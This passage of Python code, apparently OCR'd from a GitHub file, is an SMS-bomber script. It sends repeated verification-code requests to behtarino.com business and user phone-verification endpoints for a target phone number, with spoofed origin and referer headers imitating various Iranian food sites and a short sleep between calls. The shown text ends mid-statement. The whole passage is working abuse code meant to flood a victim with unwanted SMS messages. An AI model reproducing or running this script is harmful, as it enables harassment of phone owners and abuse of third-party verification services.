         time.sleep(3)

        headers = {
        "user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36",
        "content-type": "application/json;charset\u003dUTF-8",
        "origin": "https://logosfood.ir",
        "referer": "https://logosfood.ir/"
    }
        json = {"phone":"0"+phone}
        req = requests.post("https://api.behtarino.com/api/v1/businesses/bogiiiacsv/vitrin_verification/", headers = headers, json=json)
        print(req.text)

        time.sleep(3)

        headers = {
        "user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36",
        "content-type": "application/json;charset\u003dUTF-8",
        "origin": "https://pastapatogh.ir.app",
        "referer": "https://pastapatogh.ir.app/",
    }
        json = {"phone":"0"+phone}
        req = requests.post("https://api.behtarino.com/api/v1/businesses/mqmkgrkwrs/vitrin_verification/", headers = headers, json=json)
        print(req.text)

        time.sleep(3)

        headers = {
        "user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36",
        "content-type": "application/json;charset\u003dUTF-8",
        "origin": "https://sedaryekfood.ir",
        "referer": "https://sedaryekfood.ir/",
    }
        json = {"phone":"0"+phone}
        req = requests.post("https://api.behtarino.com/api/v1/businesses/cxurjiqykm/vitrin_verification/", headers = headers, json=json)
        print(req.text)

        time.sleep(3)

        headers = {"user-agent":"Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36", "content-type": "application/json","origin": "https://behtarino.com","referer": "https://behtarino.com/"} 
        json = {"phone":"0"+phone}
        req = requests.post("https://api.behtarino.com/api/v1/users/phone_verification/", headers = headers, json=json)
        print(req.text)

        time.sleep(3)

        headers = {
        "user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36",
        "content-type": "application/json;charset\u003dUTF-8",
        "origin": "https://fastfood.ir.app",
        "referer": "https://fastfood.ir.app/",
    }
        json = {"phone":"0"+phone}
        req = requests.post("https://api.behtarino.com/api/v1/businesses/atifkxbvuj/vitrin_verification/", headers = headers, json=json)
        print(req.text)
        headers = {
            "user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36",